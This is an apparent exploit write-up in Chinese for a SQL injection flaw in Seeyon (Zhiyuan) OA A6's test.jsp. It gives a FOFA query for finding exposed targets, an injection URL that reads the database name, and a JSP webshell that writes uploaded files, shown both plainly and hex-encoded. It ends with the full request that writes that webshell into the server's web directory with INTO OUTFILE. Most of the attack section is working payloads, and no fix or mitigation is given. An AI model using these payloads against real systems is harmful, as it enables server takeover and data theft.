



# 致远OA A6 test.jsp sql注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

> [!NOTE]
>
> title="致远A8+协同管理软件.A6"

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```



返回了当前使用的数据库

要想写入shell需要知道写入的路径



这里得到路径 D:\Program Files\UFseeyon\OA\mysql\bin\..\

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```jsp
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
```


```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/peiqi.jsp%27
```

